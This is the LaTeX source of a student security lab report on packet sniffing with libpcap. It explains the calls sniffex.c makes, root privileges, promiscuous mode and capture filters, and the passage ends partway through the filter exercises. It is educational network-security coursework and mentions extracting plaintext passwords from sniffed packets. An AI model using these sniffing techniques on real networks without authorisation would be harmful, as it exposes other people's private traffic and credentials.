%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usetikzlibrary{arrows}
\newcommand{\midarrow}{\tikz \draw[-triangle 90] (0,0) -- +(.1,0);}
\pgfdeclarelayer{bg}    % declare background layer
\pgfsetlayers{bg,main}  % set the order of the layers (main is the standard layer)
\usepackage{mwe}
\usetikzlibrary{decorations.pathreplacing}
\usetikzlibrary{shapes}
\usepackage{mathtools}
\usepackage{enumitem}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}
\usepackage{footmisc}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{setspace}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3cm,
	top=3cm,
	bottom=3cm
}



\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother
\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4921\\ Supervised Independent Study II\\
			\vspace*{4em}
			\LARGE
			\textbf{Packet Sniffing \& Spoofing}\\		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2018/19
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
Packet sniffing and spoofing are crucial in network security and can be destructive when maliciously used. Understanding these two threats is core in implementing network security mechanisms. Freely available and widely used sniffing and spoofing tools include \textit{Ethereal}, \textit{Wireshark}, \textit{Netwox} etc. These are some of the tools that are used by network security experts and attackers alike. This lab will focus on how these programs work and provide insights on how sniffing and spoofing programs are written.
\section{Overview}
This lab will consist of three main tasks. The first task will involve using a sample program to sniff packets using filters and extracting plaintext passwords. Following that would be the spoofing of packets with fake data and sending it out through the network. Concluding this lab will be the combination of both sniffing and spoofing into a single program.
\section{Exploration}
\subsection{Sniffing Packets}
For this part, a sample sniffing program \texttt{sniffex.c} has been provided and the source code made available by Tim Carstens\footnote{\url{https://www.tcpdump.org/pcap.html}}. The code makes use of the \texttt{pcap} library, which simplifies the writing of programs involving network packets.
\subsubsection{Understanding \texttt{sniffex}}
To see the usefulness of the program, the source code must first be downloaded and compiled. The compilation of the source code requires execution of the following line.
\begin{verbatim}
$ gcc -Wall -o sniffex sniffex.c -lpcap
\end{verbatim}
To ensure the program works as expected, the program is run by executing \texttt{sniffex} directly using Terminal. The default packet capture mode is \textbf{10} packets that have the \texttt{IP} protocol header. To verify whether the packets captured are genuine, it is counterchecked against Wireshark. For Wireshark itself, the filter expression used to display the relevant captured packets is \texttt{ip}. In addition, the Network Interface Card (NIC) that is used to capture the packets must be set to \texttt{eth0} (primary NIC).

\begin{figure}[H]
\centering

\includegraphics[width=1\linewidth]{sniffok}
\caption{Sniffing Program Capture}
\label{fig:sniffok}
\end{figure}

\noindent From Figure \ref{fig:sniffok}, it is immediately noticeable that the packets captured are correct as both programs reflect the same packets that were captured. *Note: The DNS, DHCP \& BROWSER packets that were captured in Wireshark use the UDP protocol for packet transmission. Refer to Appendix A of the Remote DNS Attack lab for detailed explanation on the structure of the DNS packet.\\\\
\noindent
\textbf{Problem 1:}\\ Describe the sequence of library calls that are essential for the sniffer program.\\\\
\textbf{Answer 1:}\\
The source code is analysed to determine the sequence of calls made to the \texttt{pcap} library which are essential in the sniffing program. The calls can be grouped into 5 main blocks and the purpose of each function can be found on the \texttt{man} page of \href{http://www.tcpdump.org/manpages/pcap.3pcap.html}{\texttt{pcap}}.


\begin{itemize}
	\itemsep0em
	\item The first requirement involves the selection of the NIC by the user unless it is not specified. In such cases, the first NIC that \texttt{pcap} finds is used (except for the \textit{loopback} (\texttt{lo}) interface). (Lines 519 -- 535)
	\begin{enumerate}
	\item The process of automatically selecting a suitable NIC is performed by the function call \texttt{pcap\_lookupdev}. (Line 529)
	\item Next, the function \texttt{pcap\_lookupnet} then obtains the network details of the selected NIC. (Line 538)
	\end{enumerate}
			\item The NIC must be opened and checked to ensure that it is the correct type of interface that we are capturing packets from. In this instance, it is a Ethernet connection (NAT adapter). (Lines 550 -- 568)
	\begin{enumerate}

	\item The selected NIC needs to be opened to capture the packets, completed by \texttt{pcap\_open\_live}. (Line 551)
	\item The checking of the NIC is handled by \texttt{pcap\_datalink}. As the NAT adapter is viewed by the Virtual Machine (VM) as an Ethernet connection, it should return \texttt{DLT\_EN10MB}. (Line 558)

		\end{enumerate}
		\item To capture relevant packets, filter expressions must be written, checked and compiled before starting the process. (Lines 510, 563 -- 575)
		\begin{enumerate}
		
	\item The filter needs to be compiled into a program before it can be used later and this is handled by the function call \texttt{pcap\_compile} (Line 564)
	\item The filter program compiled in the previous point is applied by the function \texttt{pcap\_setfilter}. (Line 571)
	\end{enumerate}


	\item The process of parsing the packet's details and data is declared by the function \texttt{pcap\_loop}. The function is looped depending on the number of packets that need to be captured. (Line 578)
			\item To ensure that the capturing process is terminated properly, post-operations are required. (Lines 577 -- 582)
		\begin{enumerate}
	\item Memory that was previously used and currently unused is freed up by calling \texttt{pcap\_freecode}. This memory was first generated when \texttt{pcap\_compile} was first called and subsequently used by \texttt{pcap\_setfilter}. (Line 581)
	\item After the sniffing session has been completed, \texttt{pcap\_close} terminates the session. (Line 582)
		\end{enumerate}
\end{itemize}
\vspace{1em}
\noindent
\textbf{Problem 2:}\\
Why does \texttt{sniffex} require root privileges and where does it fail without root privileges?\\\\
\textbf{Answer 2:}\\
Root privileges are required when any program needs to open or inspect the list of attached NICs. This is triggered by the \texttt{pcap\_lookupdev} function on line 529. Executing \texttt{sniffex} without root privileges will result in printing of the following line: ``Couldn't find default device: no suitable device found''.\\\\
\textbf{Problem 3:}\\
Turn on and off promiscuous mode in the sniffer program. What is the difference when this mode is turned on and off?\\\\
\textbf{Answer 3:}\\
When promiscuous mode is off, the sniffing program will only capture packets that has been addressed to that NIC, broadcasts and multicasts.\\\\
When promiscuous mode is turned on, the sniffing program will capture \textbf{all} packets on the local network, even if the destination of the packet is not for the NIC that is executing the sniffing program.\\\\To turn promiscuous mode on or off, the third argument of \texttt{pcap\_open\_live} is set to \texttt{1} or \texttt{0} respectively (line 551).
\begin{verbatim}
pcap_open_live(dev, SNAP_LEN, 1, 1000, errbuf); //Promiscuous on
pcap_open_live(dev, SNAP_LEN, 0, 1000, errbuf); //Promiscuous off
\end{verbatim}
To show the result clearly, another NIC is created for the VM but set to ``bridged'' mode. This allows the network card to interface directly with the network of the physical system. When executing the sniffing program, the ``bridged'' NIC must be specified with the argument \texttt{eth1} or the program will default to the NAT adapter which is not desired. For reference, the IP address of the physical system is \texttt{192.168.1.3} while the IP address on the ``bridged'' NIC is \texttt{192.168.1.7}. \\\\On the physical system, the following command(s) are run on Command Prompt or Terminal, depending on the operating system used.\\\\
Windows (Command Prompt):
\begin{verbatim}
ping -t 8.8.8.8
\end{verbatim}
Linux (Terminal):
\begin{verbatim}
ping 8.8.8.8
\end{verbatim}
The differences between promiscuous mode and non-promiscuous mode are immediately clear, as seen from Figure \ref{fig:prom} and \ref{fig:nonprom} respectively. When promiscuous mode is enabled, Google's IP address (8.8.8.8) becomes visible in our captured packets but not in the non-promiscuous mode.
\begin{figure}[H]
    \centering
\begin{subfigure}[H]{0.45\textwidth}
\centering

\includegraphics[width=1\linewidth]{prom}
\caption{Promiscuous Mode}
\label{fig:prom}
\end{subfigure}
~
\begin{subfigure}[H]{0.45\textwidth}
\centering

\includegraphics[width=1\linewidth]{nonprom}
\caption{\textbf{Non-}Promiscuous Mode}
\label{fig:nonprom}
\end{subfigure}
    \caption{Different Capturing Modes}
    %\label{fig:lengthdetermination}
\end{figure}
\noindent *Note: IP addresses \texttt{224.0.0.1} and \texttt{224.0.0.251} are multicast addresses that define a group of hosts within the \textbf{local} subnetwork. The various types of multicast addresses are defined in \href{https://tools.ietf.org/html/rfc5771}{RFC 5771}. Furthermore, in promiscuous mode foreign IP addresses can also be seen interacting with the physical system, such as \texttt{124.27.65.148}.
\subsubsection{Writing Filters}
In order for us to capture relevant packets for analysis, filters must be applied. This task will focus on writing specific filters to capture required packets.
\begin{itemize}
\item Capture ICMP packets between two specific hosts
\end{itemize}
The two hosts used is our VM (192.168.1.7) and the physical machine (192.168.1.3) as the network adapter is already in ``bridged'' mode. Referencing the \href{https://www.tcpdump.org/manpages/pcap-filter.7.html}{\texttt{man}} page for \texttt{pcap}, we can easily write out the required filter.
\begin{verbatim}
icmp and (host 192.168.1.7 or host 192.168.1.3)
\end{verbatim}
To create ICMP packets, the \texttt{ping} command can be used via Terminal or Command Prompt. 
\begin{figure}[H]
\centering

\includegraphics[width=0.9\linewidth]{icmpping}
\caption{ICMP Between Two Hosts}
\label{fig:icmpping}
\end{figure}

\begin{itemize}
\item Capture TCP packets that have a destination port range from to port 10 -- 100.
\end{itemize}
For the following, the \texttt{dst portrange} filter can be applied to focus on the required destination port range. 
\begin{verbatim}
tcp dst portrange 10-100
\end{verbatim}
To initiate the capture, any FTP program can be used to open the connection. As FTP uses TCP port 21, it falls within our filtered scope and the packets will be captured by the program and printed out.
\begin{figure}[H]
\centering
